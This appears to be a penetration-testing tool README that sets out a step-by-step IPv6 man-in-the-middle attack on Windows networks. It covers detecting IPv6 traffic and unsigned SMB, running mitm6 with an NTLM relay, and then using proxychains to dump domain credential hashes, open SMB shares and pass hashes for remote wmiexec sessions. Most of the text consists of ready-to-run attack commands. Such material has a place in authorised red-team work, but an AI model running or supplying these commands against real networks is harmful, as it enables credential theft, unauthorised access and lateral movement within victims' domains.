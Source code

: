 # IPV6

## Discovery

First check if IPv6 is being used on the network:

```bash
screen -S tshark -d -m docker run -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_for_ipv6_traffic network_interface to listen on
```

If Ipv6 is not being actively managed by a DNS and DHCP server and IPv6 packets are flowing then we can likely
compromise this network by setting up a DNS server and DHCP server for IPv6. It is worth noting that according to [RFC3484](https://www.ietf.org/rfc/rfc3484.txt)
IPv6 will be preferred over IPv4 which means that once IPv6 is being managed, nodes on the network will send packets via IPv6 as
opposed to IPV4.

To ensure that the attack can be completed, the next step is to check if SMB signing is not required. To discover if SMB is enabled 
but not required, run:

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_if_smb_is_required target_ip_address_or_list_of_ips
```

## Exploitation

If SMB is not required then:

```bash
screen -S mitm6 -d -m  docker run -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_mitm6 target_domain_name local_network_interface
```

The above command runs mitm6 (Creates a DNS and DHCP server to manage IPV6) and impacket relay in two screens, you can view the running screens using:

```bash
screen -ls
```

Activate running screens with:

```bash
screen -r relay_ipv6
screen -r mitm6
```

Detach from a screen using

```bash
Ctrl + A (release before next key) + D
```

You can check if SMB sessions have been created successfully by resuming the `relay_ipv6`
screen and running the `socks` command

If SMB sessions have been created, you can perform a number of actions going forward using proxychains:

- Dumping ashes

    ```bash
    sudo proxychains impacket-secretsdump -no-pass DOMAIN/USER@X.X.X.X 
    ```
- Accessing SMB shares

    ```bash
    proxychains smbclient //10.8.0.99 -U DOMAIN/X.X.X.X     
    ```
- Passing hashes for a WMIexec session

```bash
impacket-wmiexec -hashes xxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxx user@x.x.x.x
```
